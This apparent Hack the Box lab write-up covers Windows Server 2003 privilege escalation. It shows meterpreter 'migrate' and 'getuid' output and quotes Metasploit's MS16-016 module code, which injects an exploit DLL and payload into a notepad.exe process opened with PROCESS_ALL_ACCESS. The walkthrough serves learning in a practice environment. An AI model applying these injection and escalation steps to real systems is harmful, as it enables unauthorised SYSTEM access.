 ```yaml
---
layout: post
title:  "Process All Access"
subtitle: "Hack the Box"
date:   2017-07-24 00:00:00
author: "coastal"
header-img: "images/htb/process-all-access/header.jpg"
---
```


Recently, I was working on privilege escalation from inside a Windows Server 2003 box. While I was enumerating the box, I took a look at the running processes and saw some interesting things.

```
>ps
PID   PPID  Name          Arch  Ses  User                Path
---   ----  ----          ----  ---  ----                ----
[...snip...]


2356  3312  cmd.exe        x86   0   IIS APPPOOL\Web     C:\Windows\system32\cmd.exe
2384  2784  notepad.exe    x86   0   NT AUTHORITY\SYSTEM C:\Windows\system32\notepad.exe
2732  1788  notepad.exe    x86   0   IIS APPPOOL\Web     C:\Windows\system32\notepad.exe
3312  1476  w3wp.exe       x86   0   IIS APPPOOL\Web     c:\windows\system32\inetsrv\w3wp.exe
```

We notice some curious processes for a remote server, specifically ```notepad.exe``` running as ```NT AUTHORITY\SYSTEM```. Now anyone familiar with meterpreter knows that ```notepad.exe``` is a favorite process to spin up as a host for the meterpreter session. Given the ```SYSTEM``` level access, it is likely that another hackthebox user has performed successful exploitation and is enjoying their new privileges. Just as a bit of a joke, I decided to try to receive some ill-gotten gains:

```
meterpreter > migrate 2384
[*] Migrating from 3312 to 2384...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Wait, whoops. I seem to have gotten myself ```SYSTEM``` without any of the heavy lifting! Congrats, right!

Well I decided that wasn't exactly sporting and ditched my shell. After I successfully performed the privilege escalation and got a proper ```SYSTEM```, I had to figure out why I had been able to own the box via ```migrate```. As I guessed (correctly) that the other user had performed priv esc via the same methodology, I checked the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_016_webdav.rb) of the exploit to see what was going on with the ```notepad.exe``` spawn.

```
print_status("Launching notepad to host the exploit...")
  notepad_process_pid = cmd_exec_get_pid("notepad.exe")
  begin
    process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
    print_good("Process #{process.pid} launched.")
  rescue Rex::Post::Meterpreter::RequestError
    print_error("Operation failed. Hosting exploit in the current process...")
    process = client.sys.process.open
end
```

So we try to spawn a new ```notepad.exe``` process that will host the exploit. If we are unable to spawn a new process, we use the current running process as the host. Offloading the escalation to a new ```notepad.exe``` is more stealthy than escalating the currently running process. As the running process ```w3wp.exe``` is an IIS worker process that handles requests sent to the IIS application pool, if our exploit crashes the process would die and most likely be noticed immediately by even an inattentive sysadmin. However, if a newly spawned ```notepad.exe``` process dies, it makes much less noise and doesn't impede application function.

The line of code in this section relevant to the strange behavior that we observed is:

```
process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
```

The notepad process is spawned with ```PROCESS_ALL_ACCESS``` designation. In the Windows Documentation on [Process Security and Access Rights](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx), we can see that this flag, when passed to ```CreateProcess``` gives the new process object all possible access rights. This means that the any processes running on the system can use the new process to create new processes and threads, duplicate its handle, query information about the process such as tokens and access codes, set information about the process, read and write to its memory, perform an operation on its address space, and do basically whatever it likes with the new process.

Assuming we are successful in our process creation, we next load the exploit ```.dll``` into the process 

```
print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
library_path = ::File.join(Msf::Config.data_directory, "exploits", "cve-2016-0051", "cve-2016-0051.x86.dll")
library_path = ::File.expand_path(library_path)
exploit_mem, offset = inject_dll_into_process(process, library_path)
print_status("Exploit injected ... injecting payload into #{process.pid}...")
payload_mem = inject_into_process(process, payload.encoded)
thread = process.thread.create(exploit_mem + offset, payload_mem)
sleep(3)
print_status("Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.")
```

As we can see, the lenient access rights on the process is what allows us to inject the exploit ```.dll```, payload, and run with ```SYSTEM``` privileges. 

Interestingly enough, it doesn't look like the exploit migrates the meterpreter session to the newly escalated ```notepad.exe``` process. While we could set our payload to a reverse shell and catch our new ```SYSTEM``` privileges, we could also perform the exploit without any payload and migrate meterpreter into the elevated ```PROCESS_ALL_ACCESS``` process. I decided to perform the priv esc that way, and got my ```SYSTEM``` the same as the cheap way. But this time I earned it.

-coastal

### Resources

https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx
https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities
https://stackoverflow.com/questions/7822898/what-is-w3wp-exe














